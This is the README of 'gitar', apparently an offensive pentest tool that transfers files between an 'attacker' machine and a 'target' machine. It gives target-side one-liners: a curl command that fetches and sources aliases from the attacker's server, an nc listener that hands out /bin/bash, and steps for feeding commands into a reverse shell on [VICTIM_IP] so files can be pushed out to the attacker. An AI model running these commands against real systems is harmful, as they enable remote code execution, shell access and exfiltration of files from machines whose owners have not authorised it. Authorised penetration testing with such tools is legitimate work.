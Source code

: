 <h1 align=center> 🎸 gitar ⇆</h1>

|![demo](https://github.com/ariary/gitar/blob/main/img/gitar-demo.gif)|
|:---:|
|**~>** Have the  ***simplest possible shortcuts*** to upload/download file to/from the target machine<br>**~>** ***No installation needed*** on target machine<br>**~>** ***Fast and simple*** deployment|


## TL;DR *- and listen music*

On my target machine:
 - **Download a file** to my attacker machine: `pull [file]`
 - **Download a directory** to my attacker machine: `pullr [directory]`
 - **Upload a file** to my attacker machine: `push [file]`
 - **Upload a directory** to my attacker machine: `pushr [directory]`

*Before be able to use these shortcut you have to [set up](#set-up) both machines. Once again, the aim is to made it as simple as possible*

## Set up

***~>*** To make **set up even simpler** shortcut/aliases are a great benefit. See [them 💥](https://github.com/ariary/bang/blob/main/README.md#gitar-pentest-easy-file-sharing)

### Pre-requisites

* HTTP Network connectivity between attacker & target machines
* On target machine: `curl` 
	* `tar` for directory upload 
* On attacker machine: 
	* `xclip` to copy command on clipboard (not required)
	* `tree`: to expose it trough server (not required)

The aim is to keep "target requirements" as fit as possible. Attacker machine requirements are not a big deal as we have plenty control over it and time to configure it.

### Launch `gitar` server 
 
#### (Attacker machine)

Launch `gitar` server: 
```shell
gitar -e [server_reachable_ip]`
```

#### (Target machine)

Get shortcuts and source them. The one-liner corresponding is by default copy on clipboard. It is also provided by step 1. (in gitar output):
```shell
curl -s http://[attacker_ip:port]/alias > /tmp/alias && source /tmp/alias && rm /tmp/alias
```

**And that's all, you can now `push`or `pull` file [🎶](#tldr---and-listen-music)**

 [`with 💥`](https://github.com/ariary/bang/blob/main/EXAMPLES.md#share-files)

### Secure launch of `gitar` server

 
This is basicaly the same as launching `gitar` server. But as we expose our http server we become the prey. Hence we must harden a bit the server. To do this we launch `gitar` inside a container and use HTTPS.

* To enable HTTPS you must have certificates. Generate them with `generate.sh`.
* To use container image, you have to built it from ` Dockerfile`: `make build.image-gitar`

The following steps expose files of current directory. Files uploaded by remote are written inside current directory also.
#### (Attacker machine)

Launch `gitar` server: 
```shell
docker run --rm --cap-drop=all --cap-add=dac_override -v "${PWD}:/app/upload" -v "${HOME}/.gitar/certs/:/certs:ro" -v "${PWD}:/app/download" -p 9237:9237 gitar -copy=false -u /app/upload -d /app/download -tls=true -c /certs
```

#### (Target machine)

Get shortcuts and source them. The one-liner corresponding is in the container stdout.

**You can now `push`or `pull` file being more safe [🎶](#tldr---and-listen-music)**

[`with 💥`](https://github.com/ariary/bang/blob/main/EXAMPLES.md#share-files-safely)

### Load shortcut directly in your reverse shell

**~>** *Below are the steps to have shortcuts directly embedded in your `nc` reverse shell*

#### (Target machine)

Launch your classic listener:
```shell
nc -nvlp 4444 -e /bin/bash
```

#### (Attacker machine)

1. Launch `gitar`server : `gitar -e [server_reachable_ip]` *(By default this will copy on clipboard the command to set up gitar exchange, also available in server output)*
2. Connect to the reverse shell + load shortcut within:`nc [VICTIM_IP] 4444` then `[CTRL+V]` 

An alternative is `export CMD=[CTRL+V] && (echo $CMD && cat) | nc [VICTIM_IP] 4444` *(Note: with `cat` you will not benefit of bash completion)*

**And enjoy you revshell [🎶](#tldr---and-listen-music)**

## Enhancement 🛣️

**~>** *All improvements must keep `gitar` simple and don't add unlikely pre-requisites (especially for the target machine)*

**Useful cause we will expose our http server and thus we become the prey**
- Hardening container image (use a non-root user, but in same time we have to be able to read/write from host volumes)
- HTTPS, basic authent (for the file server part)

**Improve UX**
- Handle case when curl isn't on target machine (wget version?) *Proposal: flag `method` (default curl), will determine the handler "alias" and adapt it in function (wget and Invoke-Webquest)
- An option to directly launch the reverse shell session with shortcut from `gitar`
- Soft to workaround limit due to `cat` use for reverse shell connection => autocompletion in reverse shell will not work as we have a pipe not a terminal. (To solve the pb we must have a prgm that creates a pseudoterminal, spawns a program connected to this pseudoterminal [see](https://stackoverflow.com/questions/5843741/how-can-i-pipe-initial-input-into-process-which-will-then-be-interactive) )


<div align=center><img src="https://github.com/ariary/gitar/blob/main/img/gitar-small.png"><div>
	
	
